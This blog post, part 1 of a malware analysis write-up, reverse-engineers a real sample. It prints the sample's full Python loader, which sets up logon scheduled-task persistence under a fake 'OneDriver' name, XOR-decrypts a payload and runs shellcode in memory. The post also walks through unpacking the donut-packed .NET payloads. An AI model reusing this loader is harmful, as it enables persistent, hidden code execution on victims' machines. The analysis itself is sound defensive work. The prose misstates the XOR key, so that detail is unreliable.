 ```yaml
---
layout: post
title: Malware Analysis - Real Case 9 [Part 1]
description: A sample utilized DLL Side-Loading to do many things cruelly
tags: [Real Case, Reverse Engineering, Malware, Command and Control, Blue Team, Python, dnSpy]
---
```


Hi guys, it is me again. Recently I and my friend have found a sample which is kinda dangerous and after analysed it several days, this is my report for it. This report is kinda long 
so I will split it into numberous parts. Let's go!

First, this sample from a real threat actor who is very dangerous also their malwares. If you use it in evil purposes, I will not take any responsibility for it! 

Sample: [db14cca00f3c8a94ef65d88e1a4b2ae7](https://www.virustotal.com/gui/file/20569c7e9e722688a8f1d1dadcc56188fad71fc206b7ba4347e5d0b2dfc13a4e)

It's a zip file, unzip it and look inside:

![image](https://github.com/user-attachments/assets/e4ecacc1-6f31-4788-9404-ec52bfb69b55)

You can see that there are so many files inside and we can see some potential files. First, I opened **run.bat**:

![image](https://github.com/user-attachments/assets/f56a0a27-a225-4f52-baca-156502f7ea13)

The batch file will navigate user to **C:\\ProgramData\\SysW64x** and then run the python file: 

```python
import ctypes
import ctypes.wintypes as wintypes
import win32com.client
import os

def create_task():
    scheduler = win32com.client.Dispatch('Schedule.Service')
    scheduler.Connect()
    root_folder = scheduler.GetFolder('\\')
    task_def = scheduler.NewTask(0)
    trigger = task_def.Triggers.Create(9)
    trigger.Id = "LogonTriggerId"
    trigger.UserId = os.environ.get('USERNAME')
    action = task_def.Actions.Create(0)
    action.ID = 'Service_2WS'
    action.Path = "C:\\ProgramData\\SysW64x\\rhc.exe"
    action.Arguments = 'C:\\ProgramData\\SysW64x\\run.bat'
    task_def.RegistrationInfo.Description = 'Test Task 2'
    task_def.Settings.Enabled = True
    task_def.Settings.StopIfGoingOnBatteries = False
    task_def.Settings.DisallowStartIfOnBatteries = False
    root_folder.RegisterTaskDefinition(
        'OneDriver download task',
        task_def,
        6,
        '',
        '',
        3)

try:
    create_task()
    print("Task created")
except:
    pass

def get_function_address(dll_name, func_name):
    hModule = ctypes.windll.kernel32.GetModuleHandleW(dll_name)
    if not hModule:
        hModule = ctypes.windll.kernel32.LoadLibraryW(dll_name)
    return ctypes.windll.kernel32.GetProcAddress(hModule, func_name.encode())


VirtualAlloc = ctypes.CFUNCTYPE(ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t, ctypes.c_uint32, ctypes.c_uint32)(
    get_function_address("kernel32.dll", "VirtualAlloc")
)
VirtualProtect = ctypes.CFUNCTYPE(ctypes.c_int, ctypes.c_void_p, ctypes.c_size_t, ctypes.c_uint32,
                                  ctypes.POINTER(ctypes.c_uint32))(
    get_function_address("kernel32.dll", "VirtualProtect")
)
CreateThread = ctypes.CFUNCTYPE(ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t, ctypes.c_void_p, ctypes.c_void_p,
                                ctypes.c_uint32, ctypes.POINTER(ctypes.c_uint32))(
    get_function_address("kernel32.dll", "CreateThread")
)
RtlMoveMemory = ctypes.CFUNCTYPE(None, ctypes.c_void_p, ctypes.c_void_p, ctypes.c_size_t)(
    get_function_address("kernel32.dll", "RtlMoveMemory")
)
WaitForSingleObject = ctypes.CFUNCTYPE(ctypes.c_uint32, ctypes.c_void_p, ctypes.c_uint32)(
    get_function_address("kernel32.dll", "WaitForSingleObject")
)
VirtualFree = ctypes.CFUNCTYPE(ctypes.c_int, ctypes.c_void_p, ctypes.c_size_t, ctypes.c_uint32)(
    get_function_address("kernel32.dll", "VirtualFree")
)

PAGE_READWRITE = 0x04
PAGE_EXECUTE_READWRITE = 0x40
MEM_COMMIT = 0x1000
MEM_RESERVE = 0x2000
MEM_RELEASE = 0x8000

def xor_encrypt(data, key):
    encrypted_data = bytearray()
    key_length = len(key)

    for i in range(len(data)):
        encrypted_data.append(data[i] ^ key[i % key_length])

    return encrypted_data


def run_shellcode(encrypted_payload, key):
    decrypted_shellcode = xor_encrypt(encrypted_payload, key)

    decrypted_shellcode = bytes(decrypted_shellcode)

    shellcode_ptr = VirtualAlloc(None, len(decrypted_shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)

    if not shellcode_ptr:
        raise ctypes.WinError(ctypes.get_last_error())

    print(f"Memory allocated at: {hex(shellcode_ptr)}")

    shellcode_buffer = ctypes.create_string_buffer(decrypted_shellcode)

    RtlMoveMemory(shellcode_ptr, shellcode_buffer, len(decrypted_shellcode))

    old_protect = wintypes.DWORD()
    success = VirtualProtect(shellcode_ptr, len(decrypted_shellcode), PAGE_EXECUTE_READWRITE, ctypes.byref(old_protect))
    if not success:
        raise ctypes.WinError(ctypes.get_last_error())

    print(f"Memory protection changed to executable at {hex(shellcode_ptr)}")

    thread_handle = CreateThread(None, 0, shellcode_ptr, None, 0, None)
    if not thread_handle:
        raise ctypes.WinError(ctypes.get_last_error())

    print("Thread created successfully.")

    WaitForSingleObject(thread_handle, -1)
    print("Shellcode executed.")

    VirtualFree(shellcode_ptr, 0, MEM_RELEASE)
    print("Memory freed.")


if __name__ == "__main__":
    key = b'motconmeocon'  # Must match the key used for encryption

    with open("encrypted_payload.bin", "rb") as f:
        encrypted_shellcode = f.read()

    run_shellcode(encrypted_shellcode, key)
```

Look at the code you will understand immediately about how it works! First, it will create a schedule task in root directory which will run **run.bat** each time we login 
to the system:

![image](https://github.com/user-attachments/assets/4d48ef3f-4e5b-47bb-a733-f10b0080d819)

When task was created, it would decrypt **encrypted_payload.bin** by using XOR algorithm with the key is **meoconlonton**. From here you can decrypt it easily: 

```python
def xor_encrypt(data, key):
    encrypted_data = bytearray()
    key_length = len(key)

    for i in range(len(data)):
        encrypted_data.append(data[i] ^ key[i % key_length])

    return encrypted_data

if __name__ == "__main__":
    key = b'motconmeocon'  # Must match the key used for encryption

    with open("encrypted_payload.bin", "rb") as f:
        encrypted_shellcode = f.read()

    # Save the decrypted shellcode to a file
    
    shellcode = xor_encrypt(encrypted_shellcode, key)
    with open("shellcode.bin", "wb") as w:
        w.write(shellcode)
```

When we get the shellcode, now it's time to check its packer because attackers are using many packers to hide their shellcodes nowadays. I used **diec** to check the shellcode 
and it was packed by **donut**:

![image](https://github.com/user-attachments/assets/70f0193e-ef64-4015-9d84-556c2c33a1ca)

It's very clear, right? In GitHub there is a tool that help you unpack the donut shellcode, but when I used it it's not work!:

![image](https://github.com/user-attachments/assets/d278fa82-408f-4740-a894-c0200e16d6c4)

I thought because of newest version of donut, my tool could not unpack it. But there is another way to extract. Because python script will load shellcode to memory, also donut shellcode 
is created from C# script, there is a [tool](https://github.com/kzorin52/MegaDumper) to help you dump the memory and extract .NET file inside that memory area. To use this tool, you must RUN 
the malware which needs you to have a specific virtual environment. In my case I will use **flarevm** which has many tools help me do that. 

First, run the malware and next, run the **MegaDumper**:

![image](https://github.com/user-attachments/assets/ab6952ec-922a-4538-bee5-7a79c7a13a4c)

Because shellcode was loaded by Python, memory inside Python process would keep that shellcode also .NET things. Click to python process, choose .NET dump:

![image](https://github.com/user-attachments/assets/9440c688-c495-482d-824f-86b431c20ed5)

Waiting a bit, and you will see that all .NET payloads were extracted: 

![image](https://github.com/user-attachments/assets/470a39bf-696c-47b4-a059-13ce7873666d)

![image](https://github.com/user-attachments/assets/981fc3c9-02da-4df1-baee-7901cbe94a88)


Use DIE, you will see that exe file was written by C#, and you can use **dnSpy** to do it. In Flare VM they give you **dnSpy** too: 

![image](https://github.com/user-attachments/assets/ce3c52e0-4d7a-40b8-84e7-08e21918c751)

Ok so this is part 1 of my report. Thank you for reading to this line, if you like this report, please wait for part 2! Love you all 🫀



